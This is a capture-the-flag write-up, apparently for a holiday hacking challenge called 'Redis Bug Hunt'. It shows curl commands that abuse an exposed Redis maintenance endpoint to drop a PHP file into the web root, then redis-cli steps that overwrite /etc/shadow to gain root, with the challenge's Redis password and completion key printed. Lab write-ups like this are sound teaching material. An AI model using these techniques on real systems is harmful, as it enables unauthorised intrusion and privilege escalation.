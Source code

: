 # Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

## Approach 1: Pushing a PHP file into the Web Tree
This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php --output -
```

## Approach 2: Become root
The Redis password can be found with the above method in the file maintenance.php, it is `R3disp@ss`.
As the Redis server is running as `root` we can overwrite `/etc/shadow` with new content. The `root` user's password is set to `Marie`.
```
echo "\n\n
root:cbMHDguL1fenw:16928:0:99999:7:::
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' -x set 1 < x
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dir /etc
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dbfilename shadow
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' save
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ ls -l /etc/shadow
-rw-r--r-- 1 root root 243 Dec 30 18:07 /etc/shadow
player@95bbb6f62400:~$ su -
Password: 
root@95bbb6f62400:~# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: 4ec1769f83fd212bcb9d22b2316d8706
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0OTAyMDAwMjIsMjg4Njk3MDE5LDQ3OD
k1OTI2Nyw3MzA5OTgxMTZdfQ==
-->